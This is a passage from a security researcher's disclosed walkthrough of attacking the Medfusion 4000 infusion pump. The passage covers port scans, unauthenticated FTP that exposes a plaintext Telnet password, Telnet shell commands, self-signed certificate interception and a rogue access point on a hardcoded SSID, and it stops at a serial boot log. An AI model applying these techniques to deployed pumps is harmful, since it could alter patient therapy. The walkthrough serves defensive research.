# Remote Code Execution on the Smiths Medical Medfusion 4000



In which we detail the process of vulnerability research on a life critical embedded system: a medical [infusion pump](https://en.wikipedia.org/wiki/Infusion_pump).

## Table of Contents

   * [Remote Code Execution on the Smiths Medical Medfusion 4000](#remote-code-execution-on-the-smiths-medical-medfusion-4000)
      * [Table of Contents](#table-of-contents)
      * [Summary](#summary)
      * [Introduction](#introduction)
         * [Why Do This?](#why-do-this)
      * [Initial Threat Modeling](#initial-threat-modeling)
         * [Previous Research Review](#previous-research-review)
         * [Product Manual Examination](#product-manual-examination)
         * [GUI Analysis](#gui-analysis)
            * [BIOMED Mode](#biomed-mode)
         * [Networking Analysis](#networking-analysis)
            * [Telnet](#telnet)
            * [FTP](#ftp)
            * [Config File](#config-file)
            * [Back to Telnet](#back-to-telnet)
            * [Telnet Shell Analysis](#telnet-shell-analysis)
            * [Looking into the Medical Device Server](#looking-into-the-medical-device-server)
            * [WIFI_LOG](#wifi_log)
            * [kVnRlH5WCC0L7zoz7oJiyAFT1lBNofb](#kvnrlh5wcc0l7zoz7ojiyaft1lbnofb)
         * [Now What?](#now-what)
      * [Obtaining the Firmware](#obtaining-the-firmware)
         * [Serial Port Analysis](#serial-port-analysis)
         * [Dumping the Flash Contents](#dumping-the-flash-contents)
      * [Firmware Analysis](#firmware-analysis)
         * [Uncovering the File Header](#uncovering-the-file-header)
         * [Finding the Base Address and Entry Point(s)](#finding-the-base-address-and-entry-points)
            * [The 'c' Hotkey](#the-c-hotkey)
            * [basefind.py](#basefindpy)
            * [Reading Documentation](#reading-documentation)
         * [Reverse Engineering the Image](#reverse-engineering-the-image)
            * [Finding Hidden Commands](#finding-hidden-commands)
         * [Backdoor Passwords](#backdoor-passwords)
         * [Recovering the Bootloader Password](#recovering-the-bootloader-password)
      * [Back to the Bootloader](#back-to-the-bootloader)
      * [Reverse Engineering the Firmware Checksums](#reverse-engineering-the-firmware-checksums)
      * [Code Injection](#code-injection)
      * [Base Code Execution](#base-code-execution)
         * [Dumping the Bootloader](#dumping-the-bootloader)
         * [Writing our own Bootloader](#writing-our-own-bootloader)
      * [Head Firmware Control](#head-firmware-control)
      * [Modeling the System](#modeling-the-system)
         * [More Threat Models](#more-threat-models)
      * [Vulnerability Research](#vulnerability-research)
         * [Fuzzing DNS](#fuzzing-dns)
         * [DHCP](#dhcp)
            * [DHCP Crash](#dhcp-crash)
            * [CVE-2017-12718](#cve-2017-12718)
            * [Better Exploitation](#better-exploitation)
            * [Putting it All Together](#putting-it-all-together)
         * [And One More Thing](#and-one-more-thing)
      * [What Could Have Been Done Differently?](#what-could-have-been-done-differently)
      * [Conclusion](#conclusion)

## Summary

Between March and June of 2017 I spent around 400 hours of personal time analyzing the Smiths Medical Medfusion 4000 infusion pump for security vulnerabilities. The devices analyzed had software versions 1.1.2 and 1.5.0. The flaws discovered (the most critical of which was a DHCP buffer overflow in the MQX operating system used) were disclosed in a coordinated fashion and are detailed by ICS-CERT in [ICSMA-250-02A](https://ics-cert.us-cert.gov/advisories/ICSMA-17-250-02A) and CERT in [VU#590639](https://www.kb.cert.org/vuls/id/590639). 

The goal of this exercise was to help protect patients that rely on therapy provided by the pump, to raise awareness of the risk present in unpatched versions of the device, and, finally, to contribute to the corpus of embedded/IoT security research.

Smiths Medical released a [patch](https://www.smiths-medical.com/company-information/news-and-events/news/2017/december/8/medfusion-syringe-pump-model-4000-v1-6-1-firmware-update-notice) for this device prior to the release of this document. NXP has developed a source code patch for the MQX operating system which can be obtained by contacting them at <mqxsales@nxp.com>.

## Introduction

Infusion pumps are an excellent example of life critical IoT devices. The pumps are complicated systems that deliver medications and other fluids in controlled dosages. If there is any sort of critical software vulnerability or fault in the system, dosages could be altered, the device could stop functioning, and patient health or safety adversely impacted.

In order to help educate defenders on medical device security and empower additional researchers, I will describe (in an abbreviated fashion) the entire process involved in discovering vulnerabilities present in this system with a few details redacted. This discussion will include reverse engineering the software and hardware as needed and performing vulnerability research in an attempt to gain a foothold through some form of memory corruption flaw or other architectural vulnerability.

All of the knowledge of the device and operating system comes from reverse engineering. It is possible that assertions made about how the device works (other than what I have actually observed) are incorrect as I do not know the design parameters or implementation details behind the creation of the device.

### Why Do This?

There is an abundance of information in the literature on how to reverse engineer and exploit standard Windows or Linux binaries, but, there is much less information on how to attack embedded systems. Quite a bit of what does exist starts with an introduction to [binwalk](https://github.com/ReFirmLabs/binwalk)  then glosses over the next several hundred hours of work and ends up with an exploit with no adequate discussion of events that produce these results. The goal of creating a walkthrough is to provide accurate details on what actually goes into embedded security research. 

There is a lot of discussion about IoT security but not much detailed technical content is published to help researchers. I hope to show that the process is almost exactly the same as vulnerability research on any other platform. As long as a researcher is willing to learn a new instruction set and spend the hours coming up to speed on novel operating systems one has not seen before, the process should be familiar. The actual technical details are not too difficult to grasp. The most important aspect of this type of research is perseverance.

Finally, and most importantly, healthcare IoT security is extremely important and seems to be lagging far behind best security practices and standards. Patients are entitled to better protection.

## Initial Threat Modeling

The first phase in any security research project is initial threat modeling. This involves forming a basic understanding of how the system is designed to operate and what exposures it might have. The goal is to create a list of potential attack surfaces which can be evaluated for flaws in an attempt to gain code execution or have some other unintended impact on the system. I can typically intuitively threat model a system, but for this example, a basic one will be developed from a security researcher's point of view.

### Previous Research Review

As a starting point, internet sources should be researched first to see if anyone else has reverse engineered this system. After searching, nothing is readily available, so it is necessary to start from the beginning.

### Product Manual Examination

We should read manuals (if we can find them online) to gain an understanding of device technical functionality. Being able to locate a few basic product manuals online helped with the basic understanding of the device. However, as these were lacking in relevant technical details, they did not help much with vulnerability analysis.

Through the product manual analysis, I was able to identify that the device is comprised of two subsystems called the "head" and the "base". The head is also known as the therapy module and does the actual infusion therapy via motor actuation, while the base is a separate system that handles network connectivity, reporting current infusion status, and updates. These two subsystems are connected by a ribbon cable and most likely communicate over a serial interface. You can review a quick system [diagram](#more-threat-models) if you'd like to learn more.

### GUI Analysis

Stepping through every menu provides several options on starting and maintaining infusions. Only one option has any promise &mdash; "BIOMED" mode.

#### BIOMED Mode

Selecting this menu entry shows the following screen:


We need a (short) passcode to gain entry to BIOMED mode. These passcodes are often easy to obtain from online searches (and was in this particular case), as multiple communities of medical repair technicians have posted numerous access codes on web.

Engineering and maintenance menus can be accessed with a constant password. It is unclear if device administrators can change this to prevent anyone from tampering with the device calibration or other debug menus.

Once the correct four digits are entered, the following menu appears.



The menus are quite interesting, but the one that stands out the most is the "NETWORK SETTINGS" menu as shown below.



From here we can observe network configuration settings and most critically, "ENABLE EXTERNAL COM". When the 5 menu option is entered, we get to the external commands interface.



Note that the "NOTHANKS" shown here is normally filled with the device serial number. I replaced it after discovering the serial number changing mechanism and took these photos after the fact.

At this point we're nearly done with the GUI analysis. We managed to discover the network settings and enable the "EXTERNAL COMMANDS INTERFACE". The next step is to analyze the device from a network perspective and determine what the external commands interface is.

### Networking Analysis

Run `nmap` on a stock device connected via Ethernet to your network. In this case, the device uses a static IP that can be seen in the network configuration menu.

```
$ nmap -A -T3 -p 1-10000 -PN 192.168.100.150

Starting Nmap 7.40 ( https://nmap.org ) at 2017-04-18 15:33 PDT
Stats: 0:05:14 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 15.00% done; ETC: 16:07 (0:28:26 remaining)
Nmap scan report for 192.168.100.150
Host is up (0.0059s latency).
Not shown: 9999 filtered ports
PORT     STATE SERVICE         VERSION
3210/tcp open  flamenco-proxy?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1530.42 seconds
```

Only one open port. Longer scans found nothing else. What does it do?

```
nc 192.168.100.150 3210
test
{(SERIAL WAS HERE),????,invalid,-1,1618}
```

It appears to output status or debugging messages. I spent a bit of time sending data to it but was unable to determine if the protocol could be interfaced with. This is an interesting target worth further investigation once the firmware is retrieved.

Let's enable the "EXTERNAL COMMANDS INTERFACE" and run a new nmap scan.

```
$ nmap scan report for 192.168.100.150
Host is up (0.0051s latency).
Not shown: 9996 filtered ports
PORT     STATE SERVICE         VERSION
21/tcp   open  ftp
| fingerprint-strings:
|   GenericLines:
|     220 RTCS FTP Ready
|     Unknown command
|     Unknown command
|   Help:
|     220 RTCS FTP Ready
|     214- The following commands are recognized
|     user acct pass type
|     name quit port retr
|     stor help abor
|     Direct comments to ARC International
|   NULL, SMBProgNeg:
|_    220 RTCS FTP Ready
| ftp-anon: Anonymous FTP login allowed (FTP code 221)
|_Can't get directory listing: Can't parse PASV response: "EOF"
23/tcp   open  telnet
| fingerprint-strings:
|   GenericLines, GetRequest, SIPOptions:
|     RTCS v2.96.00 Telnet server
|     Welcome to the Medfusion 4000 Configuration Interface
|     password:
|     password:
|     password:
|   Help:
|     RTCS v2.96.00 Telnet server
|     Welcome to the Medfusion 4000 Configuration Interface
|     password:
|     password:
|   NCP, NULL, RPCCheck, tn3270:
|     RTCS v2.96.00 Telnet server
|     Welcome to the Medfusion 4000 Configuration Interface
|_    password:
2200/tcp open  ici?
| fingerprint-strings:
|_    Failure: Socket Error (2)
3210/tcp open  flamenco-proxy?
|_    {******,????,invalid,-1,1618}
```

The attack surface grows dramatically larger. Granted, physical access is needed to enable this interface, but that will be dealt with later. For now, we are just trying to gain of an understanding of the system.

Here we have FTP, Telnet, a service on port 2200, and the previous port 3210. Telnet and FTP will probably provide access to the system internals. Let's start there.

#### Telnet

Telnet is always a warning sign on an embedded system. Avoid Telnet!

```bash
$ telnet 192.168.100.150
Trying 192.168.100.150...
Connected to 192.168.100.150.
Escape character is '^]'.

RTCS v2.96.00 Telnet server


Welcome to the Medfusion 4000 Configuration Interface

password:
```

We don't have any password for the configuration interface and it isn't available via an Internet search. The telnet interface is quite slow so brute forcing the password is not viable. We do now know that the service is called a "RTCS" Telnet server and it is version 2.96.00. Through internet searches, this RTCS clue revealed that this device is running the MQX embedded real-time operating system (RTOS).

Let's look at other services and return to Telnet later.

#### FTP

FTP might get us access to a filesystem with firmware and other configuration files.

```bash
$ ftp 192.168.100.150
Connected to 192.168.100.150.
220 RTCS FTP Ready
Name (192.168.100.150:work): anonymous
331 Looking up password
Password:
221 Goodbye!
421 Service not available, remote server has closed connection
```

Connecting does not work as we do not have the proper credentials. Let's connect without auto logging in with any credentials and see if we can interact with the FTP server in any useful ways.

```bash
$ ftp -d -n 192.168.100.150
Connected to 192.168.100.150.
220 RTCS FTP Ready
ftp> dir
---> PORT 192,168,100,2,215,216
200 Port command okay
---> LIST
150 Opening ASCII mode data connection
2                  0 00-00-1980  00:00:00
CONFIG.XML      1764 06-23-2016  08:25:30
STORED~1        2140 06-24-2016  06:56:24
HEAD_F~1      491648 01-01-1980  00:00:48
HEAD_C~1        6224 10-26-2013  02:59:04
ftp> get CONFIG.XML
---> PORT 192,168,100,2,215,217
200 Port command okay
---> RETR CONFIG.XML
150 Opening data connection for RETR (192.168.100.2,-10279)
226 File sent OK - 1764 bytes in 0.000 sec
ftp: 1764 bytes received in 0.04Seconds 44.10Kbytes/sec.
```

The FTP server does not require any form of authentication. Later I found out that there is a backdoor password for the FTP server, but the logic isn't hooked up correctly to require logging in before actions can be completed.

We can download the device config file and a few firmware files. The actual operating system image we are interacting with now (the networking subsystem) is NOT stored on this filesystem, just the therapy module (drug injection) firmware image. We can verify this quickly by searching for some of the strings we have seen in the HEAD_F~1 binary. As an example, "RTCS FTP Ready" is not present in the binary, but plenty of the GUI front-end strings we saw earlier in the photos are present.

At this point, we are missing the firmware controlling network connectivity and we are out of services invented in the 1970s to evaluate.

#### Config File

Let us look at the configuration file we just downloaded from the FTP server. An abbreviated version of the configuration file is below.

```xml
<?xml version="1.0"?>
<Medfusion3600Configuration>
  ...
  <WirelessOpts>
   ...
   <Key></Key>
  </WirelessOpts>
 </WirelessNetwork>
 ...
 <TelnetInterface>
  <Port>23</Port>
  <Password>passwordHere</Password>
 </TelnetInterface>
</Medfusion3600Configuration>
```

There is the Telnet interface password as well as wireless network information. If you had access to a live system, you would be able to recover plaintext WPA2 passwords from here.

#### Back to Telnet

Login with the password we just recovered from the FTP server.

```bash
$ telnet 192.168.100.150
Trying 192.168.100.150...
Connected to 192.168.100.150.
Escape character is '^]'.

RTCS v2.96.00 Telnet server


Welcome to the Medfusion 4000 Configuration Interface

password:
4000> help
Available Console Commands

help                           Display this message
ifconfig                       IP network configuration
iwconfig                       Wireless interface configuration
mds                            Medical Device Server configuration
...
ls                             List all files in the specified filesystem
cat                            Cat a file to the display
flash_coldfire                 Write a file to the internal coldfire flash
...

4000>
```

#### Telnet Shell Analysis

Now, examine all of the shell commands to learn more about the system. Here are examples of a few interesting ones.

* `ifconfig` - Ethernet connection settings.
```
4000> ifconfig eth0
Interface: eth0
        Mode: Static
        IP: 192.168.100.150
        Netmask: 255.255.255.0
        Gateway: 192.168.100.1
        DNS Server: 192.168.100.1
```
* `iwconfig` - Wireless configuration.
```
4000> iwconfig wl0
Interface: wl0
        SSID:
        Identity:
        WEP Hex KEY / WPA-PSK Passphrase:
        Encryption: none
        Authentication: open
        EAP: none
        Association Status:UNASSOCIATED
        Access Point MAC Address:00:00:00:00:00:00
        Signal Strength: 0%
        Signal Strength: 0dBm (-100dBm Min, -40dBm Max)
        Pump Channel: 0
        Access Point Channel: 0
```
* `mds` - Stands for medical device server. Probably the Smiths server software that communicates with the pump.
```
4000> mds
mds usage:
        mds show
                Display current Medical Device Server settings
        mds address <IP_address_or_hostname>
                Set Medical Device Server IP address or hostname
        mds port <port>
                Set Medical Device Server port (typically 1588)
        mds package_port <port>
                Set Medical Device Server package port (typically 1580)
        mds application_port <port>
                Set Medical Device Server application port
        mds ssl <enable_or_disable>
                Enable or disable SSL encryption of MDS communication
```
* `ls` - Lists files in filesystem. Two filesystems are available, ffs and rfs. rfs is the ram filesystem and contains a `WIFI_LOG` file. ffs contains the same contents that are available over FTP.
```
4000> ls rfs
2                  0 00-00-1980  00:00:00
WIFI_LOG        1086 01-01-1980  00:00:01
```
* `cat` - Dumps out contents of files. We can use this to read `WIFI_LOG` on rfs.
* `flash_coldfire` - Coldfire refers to the microcontroller the network board uses. The model on the PCB contains a small amount of flash storage where the bootloader is stored for the network/base module. We can update the bootloader with this command if we have a valid bootloader image. No bootloader file was located on the FTP filesystem, but we will recover that later.

The most interesting commands allow for manual configuration of the network interfaces, updating firmware and bootloaders, and configuring pump communications with some type of server. There were not any obvious commands that allow for reading or writing of memory so there are not any quick shortcuts to code execution here. 

It is important to note that many embedded systems with command line interfaces will have undocumented and unlisted commands with debugging options. It is very difficult to reliably find these commands without access to the firmware.

#### Looking into the Medical Device Server

We can set the MDS server option to point to a server we control and see what happens. If we do that, the device will connect to our port and send the following data:

```
<?xml version="1.0"?>
<env:Envelope xmlns:env="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/1999/XMLSchema-instance" xmlns:xsd="http://www.w3.org/1999/XMLSchema">
...
<Medfusion4000_Maintenance>
 <TravelLow></TravelLow>
 <TravelHigh></TravelHigh>
 <ForceAmpOffset></ForceAmpOffset>
 <ForceLow></ForceLow>
 <ForceHigh></ForceHigh>
 <SyringeDiameterLow></SyringeDiameterLow>
 <SyringeDiameterHigh></SyringeDiameterHigh>
...
</Medfusion4000_Maintenance>
...
```

This looks like device operational information for tracking current infusions to a patient. We can send data back, but we won't know what to send without a live capture of real Medfusion 4000 traffic or the firmware to reverse engineer. This is interesting, but not the best avenue to investigate further without access to the firmware.

Another simple test we can do now involves enabling the SSL option in order to determine if the device will accept self-signed certificates. If it does, we could potentially man-in-the-middle the device on a real network, even if it was using SSL/TLS. A quick way to test this is by first generating a self-signed certificate, then using `openssl` to host a temporary server.

```bash
$ sudo openssl s_server -key key.pem -cert cert.pem -accept 443 -debug -msg
```

The device accepts the self-signed certificate and eventually send us the same XML data over a TLS connection. We can then use [Wireshark](https://www.wireshark.org/) to inspect the Client Hello and view the cipher suites supported.

```
Secure Sockets Layer
    SSL Record Layer: Handshake Protocol: Client Hello
        Content Type: Handshake (22)
        Version: TLS 1.0 (0x0301)
        Length: 97
        Handshake Protocol: Client Hello
            Handshake Type: Client Hello (1)
            Length: 93
            Version: TLS 1.0 (0x0301)
            Random
                GMT Unix Time: Jun 26, 2016 00:50:15.000000000 Central Daylight Time
                Random Bytes: 57a2839265d65214c213246bc55348c69d962b30de65880f...
            Session ID Length: 0
            Cipher Suites Length: 54
            Cipher Suites (27 suites)
                Cipher Suite: TLS_DHE_RSA_WITH_AES_256_CBC_SHA (0x0039)
                Cipher Suite: TLS_DHE_DSS_WITH_AES_256_CBC_SHA (0x0038)
                Cipher Suite: TLS_RSA_WITH_AES_256_CBC_SHA (0x0035)
                Cipher Suite: TLS_DHE_RSA_WITH_3DES_EDE_CBC_SHA (0x0016)
                ...
                Cipher Suite: TLS_DHE_RSA_EXPORT_WITH_DES40_CBC_SHA (0x0014)
                Cipher Suite: TLS_DHE_DSS_EXPORT_WITH_DES40_CBC_SHA (0x0011)
                Cipher Suite: TLS_RSA_EXPORT_WITH_DES40_CBC_SHA (0x0008)
                Cipher Suite: TLS_RSA_EXPORT_WITH_RC2_CBC_40_MD5 (0x0006)
                Cipher Suite: TLS_RSA_EXPORT_WITH_RC4_40_MD5 (0x0003)
            Compression Methods Length: 1
            Compression Methods (1 method)
                Compression Method: null (0)
```

#### WIFI_LOG

Let us go back to `ls`. It mentioned a `WIFI_LOG`. What is in `WIFI_LOG`?

```
4000> ls rfs
2                  0 00-00-1980  00:00:00
WIFI_LOG       17616 01-01-1980  00:00:01


4000> cat rfs:WIFI_LOG
3.752: Trying to associate with SSID 'kVnRlH5WCC0L7zoz7oJiyAFT1lBNofb'
1515009624.171: Authentication with 00:00:00:00:00:00 timed out.
1515009624.241: Trying to associate with SSID 'kVnRlH5WCC0L7zoz7oJiyAFT1lBNofb'
1515009654.319: Authentication with 00:00:00:00:00:00 timed out.
```

The device is trying to associate with a hardcoded SSID.



#### kVnRlH5WCC0L7zoz7oJiyAFT1lBNofb

The firmware, for unknown reasons, is hardcoded to connect to `kVnRlH5WCC0L7zoz7oJiyAFT1lBNofb` when the device has unconfigured wireless settings. It broadcasts the SSID it is trying to connect to.

What if we bring up a rogue wireless access point with the SSID set to `kVnRlH5WCC0L7zoz7oJiyAFT1lBNofb`?

```
1466915942.338: CTRL-EVENT-DISCONNECTED - Disconnect event - remove keys
1466915942.433: Trying to associate with SSID 'kVnRlH5WCC0L7zoz7oJiyAFT1lBNofb'
1466915957.760: Associated with **:**:**:**:**:**
1466915957.801: CTRL-EVENT-CONNECTED - Connection to **:**:**:**:**:** completed (reauth)
1466915987.731: CTRL-EVENT-DISCONNECTED - Disconnect event - remove keys
1466915987.811: Trying to associate with SSID 'kVnRlH5WCC0L7zoz7oJiyAFT1lBNofb'
1466915993.877: Associated with **:**:**:**:**:**
```

It connects.

This seems to be an anomaly, as the wireless settings menu does not display this SSID.

Once the device connects, it broadcasts a single XID packet and then idles there. It does not use DHCP by default and the device does not appear to be statically addressable either. The good news is that this behavior does not appear to be exploitable on default configurations of the pump (unless you had a flaw in the wireless driver, but that would require analyzing another system entirely).

However, if DHCP was previous enabled on the wl0 interface and then wireless is disabled again, it will connect to the hardcoded SSID, send out DHCP discovers, and be fully addressable after receiving an IP assignment.

### Now What?

At this point we could reverse engineer the head firmware or drug injection parameters config file, find a way to forge our own versions, then flash them down via FTP and the Telnet shell. A significant amount of medical security research appears to stop at this stage, with valid findings that just seem to scratch the surface.

We now have a basic understanding of how the system operates as a whole, but not the code running the base. Now it is necessary to open up the device and look for a debug port to attempt to retrieve the firmware. Someone working in a hospital could just man-in-the-middle an update or login to a support portal and download it. As this avenue was unavailable to me, additional efforts were warranted with regard to firmware extraction.

## Obtaining the Firmware

After basic threat modeling and system analysis, the next phase in this IoT security research endeavor is to obtain the firmware. The firmware is absolutely required to gain a deeper and more complete understanding of how the system operates as well as to continue making process in searching for memory corruption vulnerabilities.

Open the device, remove the PCB, and catalog all the components.



The most important components to note are as follows:

* MCF5282CVM66 - red - A coldfire V2 microcontroller with 512KB of flash storage.
* MP232EC - purple - UART to RS232. A serial port.
* Picoflex 10 - blue - A connector to expose the RS232 lines.
* S25FL064PIF - green - 64mbit SPI flash memory.
* S29JL064J70TFI000 - yellow - 64mbit parallel NOR flash.

The firmware is most likely on the SPI or parallel NOR flash. However, there may be debugging functions exposed by the RS232. That will take less time to check first.

### Serial Port Analysis

We can buy a Picoflex 10 cable assembly and plug it into the port. Determine the correct pins via a multimeter (see an excellent post at [/dev/ttys0](http://www.devttys0.com/2012/11/reverse-engineering-serial-ports/) for more details), connect them to a RS232 to USB adapter, then look for output from the serial port.



The port is active and dumps out logging on system startup. It also provides access to the same command line interface the Telnet port gets us, although it does work without the "External Commands Interface" being active.

```
=======================================================
===========  Booting Informatics 4000 Base  ===========

Version:      1.0
Build Number: 27742
